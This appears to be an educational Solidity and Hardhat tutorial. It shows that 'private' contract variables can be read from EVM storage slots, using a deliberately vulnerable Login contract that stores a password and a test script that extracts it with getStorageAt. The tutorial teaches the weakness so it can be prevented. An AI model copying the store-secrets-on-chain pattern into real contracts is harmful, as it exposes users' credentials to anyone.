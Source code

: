 # Access-Private-Data

Did you know that all data on the smart contract can be read?

Lets see!!!

---

## Requirements

- Contract will take in `password` as a variable in its contructor and will set it equal to a private variable
  in the contract
- User should somehow be able to access the private variable

## Concepts

- Contracts have about `2 ** 256` storage slots
- Each storage spot is of 32 bytes(256 bits)
- Data is stored sequentially in the order of declaration
- Storage is optimized such that if bunch of variables can fit in one slot, they are put in the same slot

---

## Build

To build the smart contract we will be using [Hardhat](https://hardhat.org/).
Hardhat is an Ethereum development environment and framework designed for full stack development in Solidity. In simple words you can write your smart contract, deploy them, run tests, and debug your code.

- In you folder, you will set up a Hardhat project

```bash
npm init --yes
npm install --save-dev hardhat
```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

If you are not on mac, please do this extra step and install these libraries as well :)

```bash
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

- Now lets start by creating a `Login.sol` file inside the `contracts` folder. Add the following lines of code
  to your file

```go
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;

    contract Login {

        // Private variables
        // slot 0 - One bytes 32 variable would occupy 1 slot
        // because bytes32 variable has 256 bits(32*8)
        // which is the size of 1 slot
        bytes32 private username;
        // slot 1
        bytes32 private password;

        constructor(bytes32  _username, bytes32  _password) {
            username = _username;
            password = _password;
        }
    }
```

- Now lets try to understand how the variables are stored inside this contract

  - There are two variables - username, password and both are private variables
  - Variables are stored in storage slots within the EVM for a given contract
  - Each slot can store upto 256 bits and bytes32 requires 256 bits `(32*8 = 256)`
  - So each bytes32 variable will be stored in a new slot
  - Also remember, data is stored sequentially
  - Because of this reason, `username` would be stored in `slot 0` and password
    would be stored in `slot 1`

- Now lets try to write a test which demostrates how we can retrieve these private variables from the contract

- Create a new file `attack.js` inside the `test` folder and add the following lines of code

```javascript
const { ethers, waffle } = require("hardhat");
const { expect } = require("chai");

describe("Attack", function () {
  it("Should be able to read the private variables password and username", async function () {
    // Deploy the login contract
    const Login = await ethers.getContractFactory("Login");
    // To save space, we would convert the string to bytes32 array
    let usernameBytes = ethers.utils.formatBytes32String("test");
    let passwordBytes = ethers.utils.formatBytes32String("password");
    const _login = await Login.deploy(usernameBytes, passwordBytes);
    await _login.deployed();

    console.log("Login contract address", _login.address);

    // Get the storage at storage slot 0,1
    const provider = waffle.provider;
    usernameBytes = await provider.getStorageAt(_login.address, 0);
    passwordBytes = await provider.getStorageAt(_login.address, 1);

    // We are able to extract the values of the private variables
    expect(ethers.utils.parseBytes32String(usernameBytes)).to.equal("test");
    expect(ethers.utils.parseBytes32String(passwordBytes)).to.equal("password");
  });
});
```

- Finally, lets run this test and see if it works. On your terminal type:

  ```bash
  npx hardhat run
  ```

  Wow, we could actually read the password!!! LFG!!

## Prevention

- Dont store private information on chain
